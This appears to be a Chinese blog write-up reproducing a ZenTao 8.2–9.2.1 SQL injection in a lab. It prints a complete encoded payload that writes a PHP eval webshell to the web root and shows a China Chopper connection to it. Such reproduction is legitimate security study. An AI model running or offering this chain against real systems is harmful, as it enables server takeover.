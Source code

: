 ```yaml
---
title: 禅道SQL注入-漏洞复现   ——雷豹000  
layout: mypost
categories: [漏洞复现]
---
```


# 禅道SQL注入-漏洞复现    

## 前言

禅道项目管理系统是一款常见的项目管理系统，无论是在渗透测试项目中，还是在攻防对抗中可能会经常遇到。因此，研究和复现禅道项目管理系统历史版本漏洞，具有一定价值意义。    <!--主要是阐述存在的问题，将问题描述清楚，可适当引出解决方案-->

## 漏洞简介

受影响的版本：禅道8.2-9.2.1

环境下载地址：https://www.zentao.net/download/80035.html

## 复现详情

首先，在服务器上搭建禅道项目管理系统，搭建完成后，访问地址，页面如下 

![Inked图1_LI](Inked图1_LI.jpg)

访问http://x.x.x.x./zentao/index.php?mode=getconfig 获取版本信息 该版本存在漏洞

![Inked图2_LI](Inked图2_LI.jpg)

随便访问一个不存在的路径http://x.x.x.x/zentao/111111 ，报错显示文件路径信息

![Inked图3_LI](Inked图3_LI.jpg)

根据报错回显的路径，构造将一句话木马写入文件中的SQL语句

 `select'<?php @eval($_POST[1])?>' into outfile'C:/Users/Administrator/Downloads/xampp/zentao/www/bb.php'`

ASCIIhex加密》

`73656c656374273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6527433a2f55736572732f41646d696e6973747261746f722f446f776e6c6f6164732f78616d70702f7a656e74616f2f7777772f62622e70687027`

继续将加密的语句放入下列语句中  前面加上0x

`{"orderBy":"order limit 1;SET @SQL=0x73656c656374273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6527433a2f55736572732f41646d696e6973747261746f722f446f776e6c6f6164732f78616d70702f7a656e74616f2f7777772f62622e70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}`

base64加密》

`eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDI3M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUwNGY1MzU0NWIzMTVkMjkzZjNlMjcyMDY5NmU3NDZmMjA2Zjc1NzQ2NjY5NmM2NTI3NDMzYTJmNTU3MzY1NzI3MzJmNDE2NDZkNjk2ZTY5NzM3NDcyNjE3NDZmNzIyZjQ0NmY3NzZlNmM2ZjYxNjQ3MzJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjYyNjIyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9`

构造poc地址：

`http://x.x.x.x/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDI3M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUwNGY1MzU0NWIzMTVkMjkzZjNlMjcyMDY5NmU3NDZmMjA2Zjc1NzQ2NjY5NmM2NTI3NDMzYTJmNTU3MzY1NzI3MzJmNDE2NDZkNjk2ZTY5NzM3NDcyNjE3NDZmNzIyZjQ0NmY3NzZlNmM2ZjYxNjQ3MzJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjYyNjIyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9`

访问地址，添加referer

![Inked图4_LI](Inked图4_LI.jpg)

此时一句话木马已写入，在服务器文件中可查看到

![图5](图5.png)

中国菜刀连接http://x.x.x.x/zentao/bb.php  密码 1 ，连接成功

![Inked图6_LI](Inked图6_LI.jpg)

